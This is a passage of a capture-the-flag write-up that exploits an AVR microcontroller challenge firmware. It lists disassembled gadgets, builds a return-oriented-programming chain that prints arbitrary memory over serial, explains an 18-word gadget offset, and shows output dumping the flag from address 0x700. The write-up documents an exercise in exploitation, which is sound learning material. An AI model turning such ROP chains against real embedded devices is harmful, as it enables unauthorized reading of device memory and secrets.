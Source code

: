 ```
     496:       df 93           push    r29
     498:       fc 01           movw    r30, r24
     49a:       84 91           lpm     r24, Z
     49c:       ef 01           movw    r28, r30
     49e:       21 96           adiw    r28, 0x01   
     4a0:       88 23           and     r24, r24
     4a2:       21 f0           breq    .+8     ;  0x4ac
     4a4:       0e 94 df 01     call    0x3be   ;  serial_print char r24
     4a8:       fe 01           movw    r30, r28
     4aa:       f7 cf           rjmp    .-18    ;  0x49a
     4ac:       df 91           pop     r29
     4ae:       cf 91           pop     r28
     4b0:       08 95           ret

movw_r24_r16_pop_4
     4ea:       c8 01           movw    r24, r16
     4ec:       df 91           pop     r29
     4ee:       cf 91           pop     r28
     4f0:       1f 91           pop     r17
     4f2:       0f 91           pop     r16
     4f4:       08 95           ret
     
pop_r17_r16:
     4f0:       1f 91           pop     r17
     4f2:       0f 91           pop     r16
     4f4:       08 95           ret
```

These can be turned into a ROP chain as follows:

```
chain = [
         pop_r17_r16, # Read word r16:r17 from next value in chain
         swap(addr+len(dmp)), # Byte swapped version of the address we want to read
         movw_r24_r16_pop_4, # Load word r24:r25 from r16:r17
         0xdead, # consumed by pop_4
         0xbeef, # consumed by pop_4
         print_string_addr_r24_from_ram # Call print string at r24:r25 from SRAM
         ]
```

This ROP chain works fine in gdb using the firmware provided. The last trick that I found out after hours of head breaking is that the gadgets have shifted by 18 words in the weird machine binary compared to the fridge_jit one.

Once we factor that offset of 18 into the address [the exploit](weird_machine.py) works and dumps the flag from address 0x700.

```
Connecting...
00000000: 46 4C 41 47 3A 32 39 32  61 33 62 64 64 39 34 35  FLAG:292a3bdd945
00000010: 32 34 33 62 30 35 36 30  32 32 63 34 31 63 39 38  243b056022c41c98
00000020: 37 33 35 65 99 00                                 735e..
```
